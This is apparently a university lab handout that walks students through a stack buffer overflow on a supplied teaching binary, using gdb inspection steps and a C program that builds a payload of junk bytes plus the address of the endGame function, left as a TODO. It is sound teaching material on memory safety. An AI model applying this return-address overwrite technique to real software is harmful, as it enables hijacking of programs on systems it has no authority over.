 ```yaml
---
layout: page
title: Buffer Overflow Lab
permalink: /classes/208-f25/buffer-overflow-lab
---
```


## Goals
Walk through a buffer overflow attack yourself.

## Set up
1. Download the [secret executable](/classes/208-f25/secretx86-64.tar.gz) (Source: https://diveintosystems.org/book/C7-x86_64/buffer_overflow.html)
2. Move it to mantis and extract with `tar -xzvf secret86-64.tar.gz`

## Smashing the Stack

1. Start gdb with the executable

2. Put a breakpoint at address `0x0000000000400717`:
    ```bash
    b *0x0000000000400717
    ```

3. Run and get to the breakpoint

4. Take a look at the contents of the stack at this point:

    ```bash
    x/6gx $rsp
    ```

5. Run the next instruction `ni` twice until you get to the prompt. Enter `1234567890`.

6. Take a look at the stack again. Can you see your input? Remember that the ASCII of 0 through 9 is `0x30` through `0x39`. 

7. Check what is in `rbp` with `info reg rbp`, do you see that in your stack output? 

8. Your goal is to input a value long enough that it reaches the location of `rbp`, how long does it need to be?

9. Rerun with the input value `1234567890123456789012345678901234567890123`

10. When you check the contents of the stack with `x/6gx $rsp`, what has happened to the place where `rbp` was pointing?

## Exploiting the Stack
1. Go into `layout asm` and scroll around until you see the function `endGame` and note the memory address where it starts (the blue hex all the way on the left).

2. Create an `exploit.c` with the following:

    ```c
    #include <stdio.h>

    char ebuff[]=
    "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*first 10 bytes of junk*/
    "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*next 10 bytes of junk*/
    "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*following 10 bytes of junk*/
    "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*last 10 bytes of junk*/
    /*TODO*/ /*address of endGame (little endian)*/
    ;

    int main(void) {
        int i;
        for (i = 0; i < sizeof(ebuff); i++) { /*print each character*/
            printf("%c", ebuff[i]);
        }
        return 0;
    }
    ```

3. Put in the address that you found, little endian and broken up in the same way with `\xAB` where `AB` are two characters of the address. 

4. Compile and run your C code to make your exploit string:

    ```bash
    gcc -o exploit_example exploit_example.c
    ./exploit_example > exploit
    ```

    This will result in a file that you can't read since there are unprintable characters, but that's the point

5. Now run your secret executable again, (with `b *0x0000000000400717`) but when you run, direct the input from your exploit file:

    ```bash
    run < exploit
    ```

6. Step through again, taking a look at your stack along the way and probably with `layout asm` open. Where do you jump to when the buffer overflows?

A very similar process will get you through the first part of the Buffer Overflow homework, try it out!
